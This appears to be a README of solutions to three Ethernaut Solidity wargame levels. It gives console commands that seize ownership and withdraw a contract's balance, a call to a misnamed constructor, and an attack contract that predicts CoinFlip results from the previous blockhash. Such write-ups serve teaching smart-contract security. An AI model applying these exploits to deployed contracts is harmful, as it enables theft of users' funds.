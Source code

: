 # Ethernaut
The Ethernaut is a Web3/Solidity based wargame inspired on overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'.

## 1.Fallback
~~~
> contract.contribute({value:toWei("0.0001", "ether")})

> web3.eth.sendTransaction({to:"0x3D585bb9145ca9101D5EdA79E138D854242FF90C", 
	value:toWei("0.0001", "ether"), from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"})
	
> contract.owner()
< [[PromiseResult]]: "0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"

> contract.withdraw()

> getBalance("0x3D585bb9145ca9101D5EdA79E138D854242FF90C")
< [[PromiseResult]]: "0"
~~~

## 2.Fallout
```
> contract.owner()
< [[PromiseResult]]: "0x0000000000000000000000000000000000000000"

> contract.Fal1out()

> contract.owner()
< [[PromiseResult]]: "0xedd0cCc6FeE49D502E8BfA3C6033ce0201afaD83"
```

## 3.CoinFlip
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import"./coinflip.sol";

contract coinflipAttack {
    CoinFlip public coinFlipAttack;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address victimaddress) public {
        coinFlipAttack = CoinFlip(victimaddress);
    }

    function flip() public returns (bool) {
        
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = uint256(blockValue/FACTOR);
        
        bool side = coinFlip == 1 ? true : false;

        coinFlipAttack.flip(side);
    }
}
```
